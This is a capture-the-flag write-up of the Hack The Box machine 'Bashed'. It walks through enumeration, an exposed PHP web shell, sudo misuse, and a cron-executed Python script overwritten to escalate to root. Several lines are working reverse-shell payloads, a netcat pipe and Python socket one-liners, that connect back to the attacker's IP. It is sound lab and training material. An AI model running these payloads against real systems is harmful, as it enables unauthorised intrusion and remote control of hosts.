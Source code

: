 ```yaml
---
title: "Hack The Box - Bashed"
date: 2020-01-21
tags: [oscp, htb, linux]
collection: oscp-htp-prep
published: true
layout: single
headline: "Hack The Box - Bashed"
picture: /assets/htb-bashed/machine_info.png
---
```


- [Machine Info](#machine-info)
- [Enumeration](#enumeration)
- [Initial Shell](#initial-shell)
  - [Enumerate with web shell](#enumerate-with-web-shell)
- [Privlege Escalation](#privlege-escalation)
  - [Sudoers file](#sudoers-file)
  - [Upgrading the shell](#upgrading-the-shell)
  - [Upgrading the shell (again!)](#upgrading-the-shell-again)
  - [Poking the scripts folder](#poking-the-scripts-folder)
  - [Adding our own exploit](#adding-our-own-exploit)

---

## Machine Info

![](/assets/htb-bashed/machine_info.png)

## Enumeration

Nmap scans show only port 80 is open, running Apache 2.4.18 for Ubuntu.

```
Nmap scan report for 10.10.10.68
Host is up, received user-set (0.050s latency).
Scanned at 2020-01-20 23:22:13 EST for 51s
Not shown: 65534 closed ports
Reason: 65534 resets
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

The home page talks about a PHP webshell called `bashed` that the owner created, on this very site. Further investigation with Gobuster shows the below directories.

```
/about.html (Status: 200) [Size: 8190]
/config.php (Status: 200) [Size: 0]
/contact.html (Status: 200) [Size: 7802]
/css (Status: 301) [Size: 308]
/dev (Status: 301) [Size: 308]
/fonts (Status: 301) [Size: 310]
/images (Status: 301) [Size: 311]
/index.html (Status: 200) [Size: 7742]
/index.html (Status: 200) [Size: 7742]
/js (Status: 301) [Size: 307]
/php (Status: 301) [Size: 308]
/single.html (Status: 200) [Size: 7476]
/uploads (Status: 301) [Size: 312]
```

---

## Initial Shell

### Enumerate with web shell

Navigating to the `/dev` direcotry, it brings us to a directory listing, which includes a copy of `phpbash.php`. Clicking on `phpbash.php` immediatly places us into the `bashed` webshell mentioned on the homepage. With the `id` and `whoami` commands, we can see that we're running as `www-data`.

![](/assets/htb-bashed/phpbash_initialshell.png)

Some further poking with `uname -a` and `cat /etc/issue` shows that we're on a Ubuntu 16.04 system, running kernel version 4.4.0.

![](/assets/htb-bashed/wwwdata_enum_version.png)

We can confirm with `which nc` that netcat is already installed, which will help with any reverse shells going forward. We can also see a list of user directories with `ls -la /home`.

![](/assets/htb-bashed/wwwdata_nc_homedirs.png)

Besides the obvious `arrexel` username that we assumed from the homepage, there appears to be another user called `scriptmanager`. Both directories look to be readable by `www-data`. Looking in the `/home/scriptmanager` directory shows it's empty, and none of the files are readbale by our current user. We can however navigate to `/home/arrexel` and read `user.txt`.

![](/assets/htb-bashed/user_proof.png)

---

## Privlege Escalation

### Sudoers file

At this point, it makes sense to check if maybe `www-data` has more permissions then it seems. We can use `sudo -l` to see if there are any entires in the sudoers file, which might allow us access as a different user.

![](/assets/htb-bashed/wwwdata_sudoers.png)

Looks like `www-data` can use `sudo` to run any command as `scriptmanager` with no password needed.

### Upgrading the shell

When we try to run anything as `sudo` however, we get a message that *no tty present*. This is common in webshells. It also means it's time to upgrade our shell with netcat.

We first need to start a listener on our machine with `nc -lvnp 7500`. Once that's setup, we can run `/bin/sh | nc 10.10.14.12 7500` on the webshell to kick off the reverse shell.

> NOTE: Although `nc` is installed, it's the OpenBSD version, which does not include the `-e` option to execute a program on conneciton. Instead, we have to pipe `/bin/sh` into the `nc ` command to get the shell.

![](/assets/htb-bashed/revshell_failed.png)

Looks like this is very unstable, and dies right away. Let's try a Python reverse shell with the below command. Don't forget to restart your `nc` listener as well.

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.12",7500));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![](/assets/htb-bashed/python_revshell.png)

It works! Now we have to upgrade the shell to properly run the `sudo` commands we need. We can upgrade to a good `bash` shell with `python -c 'import pty;pty.spawn("/bin/bash")'`. Once that shell is spawned, we need to issue some commands to get a good TTY shell.

```shell
CTRL-Z # Sends the netcat session to the background
stty raw -echo # Properly sets terminal to pass CTRL-* commands to the netcat session
fg # Brings the netcat sesison back up
```

![](/assets/htb-bashed/upgraded_python_shell.png)

### Upgrading the shell (again!)

Now that we have access to a TTY shell, we can confirm that using `sudo -u scriptmanager` before a command will run it as `scriptmanager` without the need for a password. HOwever, this can get tiresome really fast. To bypass this, we can simply run `sudo -u scriptmanager /bin/bash`, which will open a `bash` shell as `scriptmanager`.

### Poking the scripts folder

Now that we're finally in a solid shell as `scriptmanager`, we can go poking around.

Running `ls -la /` shows a directory called `/scripts` at the drive root, and it's owned by `scriptmanager`.

![](/assets/htb-bashed/scripts_directory.png)

Inside `/scripts` are two files, `test.py` and `test.txt`. When we read `test.py`, we can see that it simply reads the content of `test.txt`.

![](/assets/htb-bashed/scripts_dir_contents.png)

We can modify the file to test it out with a `ping` back to our machine.

```shell
echo "import os" >> test.py
echo "ip = '10.10.14.12'" >> test.py
echo "command = os.system('ping -c 5 ' + ip)" >> test.py
```

This adds the lines to the existing `test.py` scirpt. We can see the new file below:

```shell
scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
import os
ip = '10.10.14.12'
command = os.system('ping -c 5 ' + ip)
```

When we run the script with `python test.py`, we can see the pings going thorugh. We can test this on our end with a `tcpdump` listener using `tcpdump -i tun0 icmp`.

![](/assets/htb-bashed/tcpdump_initial.png)

### Adding our own exploit

In the process of testing, I noticed immediatly that the 5 pings from the `test.py` script were followed up by another 5 pings within the time it took me to take a screenshot. This leads me to beleive that there must be a cronjob running to execute scripts in the `/scripts` folder. If this is the case, then we have our path to `root`.

We can make a simple python script that will initiate a reverse shell when run, using the below command:

```shell
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.12\",7700));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > root_shell.py
```

We setup the listener with `nc -lvnp 7700` and wait. Sure enough, we get a shell back after a short while.

![](/assets/htb-bashed/root_shell.png)

We got `root`! Let's grab the flag.

![](/assets/htb-bashed/root_proof.png)

When we check the `cron` list for `root`, we can see that it was in fact running every `*.py` script in `/scripts`.

![](/assets/htb-bashed/root_cron.png)
